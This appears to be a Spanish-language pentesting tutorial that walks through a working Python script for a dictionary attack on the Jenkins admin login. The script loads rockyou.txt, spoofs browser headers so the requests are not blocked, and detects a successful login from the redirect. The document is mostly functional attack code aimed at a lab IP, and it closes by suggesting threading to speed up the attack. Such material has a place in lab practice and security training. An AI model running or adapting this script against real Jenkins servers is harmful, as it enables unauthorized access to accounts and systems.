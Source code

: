 
---

#KaliLinux #VirtualBox #Jenkins #Pentesting #BurpSuite #FuerzaBruta #EthicalHacking #Python #CyberSecurity #Rockyou #Requests #Automatización #SeguridadInformática

---

## **Importación de librerías**

```python
import requests
import signal
import sys
```

- `requests`: Permite enviar solicitudes HTTP al servidor Jenkins.
- `signal`: Facilita la captura de señales del sistema para manejar interrupciones.
- `sys`: Permite la terminación controlada del programa en caso de una interrupción manual (`Ctrl + C`).

---

## **Manejo de interrupción (`Ctrl + C`)**

```python
def salir(sig, frame):
    print("\nSaliendo del programa de forma segura...")
    sys.exit(0)  # Salida limpia

signal.signal(signal.SIGINT, salir)
```

- Define la función `salir()`, que se ejecutará cuando el usuario presione `Ctrl + C`.
- `signal.signal(signal.SIGINT, salir)`: Captura la señal `SIGINT` (interrupción manual con `Ctrl + C`) y ejecuta `salir()` para detener el script de forma segura.

---

## **Configuración del objetivo**

```python
url = 'http://172.17.0.2:8080/j_spring_security_check'
diccionario_password = 'rockyou.txt'
```

- `url`: Define el endpoint de autenticación de Jenkins (`/j_spring_security_check`).
- `diccionario_password`: Nombre del archivo que contiene las contraseñas a probar (`rockyou.txt`).

---

## **Cabeceras HTTP**

```python
cabeceras = {
    'Host': '172.17.0.2:8080',
    'User-Agent': 'Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:126.0) Gecko/20100101 Firefox/126.0',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8',
    'Accept-Language': 'es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3',
    'Accept-Encoding': 'gzip, deflate, br',
    'Content-Type': 'application/x-www-form-urlencoded',
    'Origin': 'http://172.17.0.2:8080',
    'Connection': 'keep-alive',
    'Referer': 'http://172.17.0.2:8080/login?from=%2F',
    'Cookie': 'JSESSIONID.b04dbd66=node01f6mvw75o6x2n159uzu5n0hqng1.node0',
    'Upgrade-Insecure-Requests': '1',
    'Priority': 'u=1'
}
```

- Simula una solicitud legítima de un navegador.
- `User-Agent`: Se hace pasar por un navegador real para evitar bloqueos.
- `Cookie`: Contiene una sesión previa de Jenkins, que podría ser útil para autenticación.
- `Referer`: Indica de dónde proviene la solicitud (el formulario de inicio de sesión de Jenkins).
- `Content-Type`: Especifica que los datos se enviarán en formato de formulario.

---

## **Apertura del diccionario de contraseñas y fuerza bruta**

```python
with open(diccionario_password, 'r', encoding='latin-1') as file:
    for line in file:
        password_sin_espacios = line.strip()
```

- Abre el archivo `rockyou.txt` en modo lectura (`'r'`).
- Usa `strip()` para eliminar espacios o saltos de línea en las contraseñas.

---

## **Construcción de la solicitud de autenticación**

```python
        acceso = {
            'j_username': 'admin',
            'j_password': password_sin_espacios,
            'from': '/',
            'submit': '/'
        }
```

- Crea un diccionario `acceso` con los datos del formulario de autenticación:
    - `j_username`: Usuario (fijo en `"admin"`).
    - `j_password`: La contraseña actual del diccionario.
    - `from`: Indica que se intenta iniciar sesión desde la página principal (`/`).
    - `submit`: Valor enviado al hacer clic en "Iniciar sesión".

---

## **Envío de la solicitud POST**

```python
        respuesta = requests.post(url, headers=cabeceras, data=acceso, allow_redirects=False)
```

- Usa `requests.post()` para enviar la solicitud de login a Jenkins.
- `headers=cabeceras`: Envía las cabeceras para simular una petición legítima.
- `data=acceso`: Envía los datos del formulario con la contraseña actual.
- `allow_redirects=False`: Evita que la solicitud siga redirecciones automáticamente.

---

## **Verificación de la autenticación**

```python
        if respuesta.status_code == 302 and respuesta.headers.get('Location') != 'http://172.17.0.2:8080/loginError':
            print(f"Login correcto con el usuario admin y contraseña {password_sin_espacios}")
            break
        else:
            print(f"Contraseña fallida: {password_sin_espacios}")
```

- Jenkins responde con un **código 302** si la autenticación es exitosa o fallida.
- **Caso de éxito**:
    - Si la respuesta **NO** redirige a `/loginError`, significa que el login fue exitoso.
    - Muestra la contraseña correcta y **detiene el ataque** (`break`).
- **Caso de fallo**:
    - Si la respuesta redirige a `/loginError`, la contraseña es incorrecta.
    - Muestra la contraseña fallida y pasa a la siguiente.

---

## **Manejo de interrupciones con `Ctrl + C`**

Si el usuario presiona `Ctrl + C`, se ejecuta la función `salir()` definida anteriormente, terminando el script de forma ordenada.

---

### **Resumen**

Este script:

1. **Carga** un diccionario de contraseñas (`rockyou.txt`).
2. **Envía** una solicitud de autenticación a Jenkins con cada contraseña.
3. **Detecta** si el login fue exitoso (código 302 sin redirección a `/loginError`).
4. **Detiene** la ejecución si encuentra la contraseña correcta.
5. **Muestra** las contraseñas fallidas y permite interrumpir el ataque con `Ctrl + C`.

Este tipo de ataques se usa en **pentesting** para evaluar la seguridad de contraseñas en sistemas vulnerables.

---

### **Mejoras posibles**

- **Optimización con múltiples hilos (`threading`)** para probar contraseñas más rápido.
- **Uso de sesiones (`requests.Session()`)** para mantener cookies y mejorar la eficiencia.
- **Detección automática de cookies (`requests.get()`)** para evitar sesiones caducadas.
- **Guardar los intentos fallidos** en un archivo log.

---
